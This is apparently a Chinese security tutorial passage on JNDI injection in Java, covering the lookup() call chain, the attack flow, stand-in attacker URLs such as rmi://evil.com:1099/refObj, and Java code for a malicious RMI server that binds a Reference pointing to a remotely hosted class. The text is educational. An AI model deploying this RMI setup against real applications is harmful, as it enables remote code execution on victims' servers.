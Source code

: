 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0199443ba56fd9b2e0.png)

因此其调用链情况为:

```
lookup()-&gt; RegistryContext.decodeObject()-&gt; NamingManager.getObjectInstance()-&gt; factory.getObjectInstance()
```

总的来说，就是当客户端在lookup()查找这个远程对象时，客户端会获取相应的object factory，最终通过factory类将reference转换为具体的对象实例。

因此当代码调用了InitialContext.lookup(URI)，且URI为用户可控，我们可以控制URI为恶意的RMI服务器地址，根据**JNDI 协议动态转换**,即使之前并不是RMI的上下文环境配置，也会因为URI中的RMI协议而转换为RMI的环境配置

攻击者RMI服务器向目标返回一个Reference对象，`Reference`对象中指定某个精心构造的Factory类；

目标在进行`lookup()`操作时，会动态加载并实例化Factory类，接着调用`factory.getObjectInstance()`获取外部远程对象实例

[![](https://p0.ssl.qhimg.com/t01aae5a33a587d39a3.png)](https://p0.ssl.qhimg.com/t01aae5a33a587d39a3.png)

攻击者可以在Factory类文件的构造方法、静态代码块、getObjectInstance()方法等处写入恶意代码，达到RCE的效果；

上述所说的JNDI注入都是基于以下三个方面:
- JNDI 调用中 lookup() 参数可控
- 使用带协议的 URI 可以进行动态环境转换
- Reference 类动态代码获取进行实例化
用一张图来说明下攻击思路:

[![](https://p3.ssl.qhimg.com/t01fbdbb6ce8f510c64.png)](https://p3.ssl.qhimg.com/t01fbdbb6ce8f510c64.png)

这里详细说明攻击思路:<br>
当`lookup()`内参数可控时，由于动态转换的特性，我们可以构造一个恶意的RMI服务器，例如`rmi://evil.com:1099/refObj`，此时客户端请求绑定对象`refObj`，而恶意RMI服务器中与`refObj`相绑定的是一个`ReferenceWrapper`对象(`Reference("EvilObject", "EvilObject", "http://evil-cb.com/")`)

由于本地`ClassPath`并没有该类，因此会从指定url中加载`EvilObject.class`

因此我们只需要准备一个恶意的`EvilObject.class`，在其构造函数包含恶意代码时，便能使得客户端执行恶意代码

下面简单的演示该思路实现的具体代码:

编写RMI服务端:

```
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer `{`
    public static void main(String[] args) throws Exception `{`
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference refObj = new Reference("EvilObj","EvilObj","http://127.0.0.1:2333/EvilObj");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(refObj);
        System.out.println("Binding to rmi://127.0.0.1:1099/refObj...");
        registry.bind("refObj",referenceWrapper);
        System.out.println("Bind!");
    `}`
`}`
```
